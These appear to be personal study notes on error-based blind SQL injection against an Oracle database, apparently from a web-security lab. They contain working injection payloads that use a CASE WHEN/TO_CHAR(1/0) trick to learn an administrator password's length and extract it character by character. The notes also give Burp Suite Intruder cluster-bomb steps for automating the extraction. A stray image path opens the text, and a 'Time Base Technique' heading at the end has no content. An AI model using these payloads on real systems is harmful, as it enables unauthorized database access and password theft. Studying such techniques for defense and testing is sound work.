 1st Query (NOT GOOD)           ---> This query does not work since a false or true response will always display a 200 response (And might not display a HTML code that allow us to verify)
		This then mean we need to use a query to will response a error code when the query is valid and a 200 response when the query is false

CASE WHEN                             ---> Verify if the query is true are not (user exist or not)
THEN TO_CHAR(1/0)                ---> Create an Invalid query (1/0 = Invalid)
ELSE                                          ---> If response is False (user don't exist, else respond '' -> 200)
TABLE                                        ---> Table we are interested in
COLUMN                                   ---> Column we are interested in

This mean that if the user is found, it will not return an error, and if it is not found it will prive an invalid statment

**Take also note that the query is been read from (FROM users -> to the right and after pass the CASE WHEN query part)**


Length of Variable (>,<,<=,>=)
```
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM TABLE where COLUMN='administrator' and LENGTH(password)>19) || '
```

200 response                              ---> False
500 response                              ---> True

Enumeration of variable
```
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM TABLE_NAME where COLUMN='administrator' and substr(COLUMN_NAME_PASSWORD,2,1)='a') || '
```

- Column_Name_PASSWORD  ---> The Column we are interested to enumerate
	- (Column_Name_PASSWORD,2,1)  ---> 2,1 (2 = character we are trying to guest, 1 = Length of the letter (a) we are trying to guest... (probably always 1.. we guest 1 letter at the time))
- Column                                    ---> The Column Name that we are looking to get the variable
- Table_Name                            ---> Table Name that we are interested in (see previous step)
- administrator                           ---> Variable we are looking to find (True = Default HTML Resp)

- BurpSuite
	- Proxy the request
	- Send the request to intruder and add the § between the number after Column_Name_PASSWORD and between the letter we are tying to guest (a)
	```
	' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM TABLE_NAME where COLUMN='administrator' and substr(COLUMN_NAME_PASSWORD,§2§,1)='§a§') || '
	```
	- Set the attack to Cluster Bomb and load the payloads


## Time Base Technique
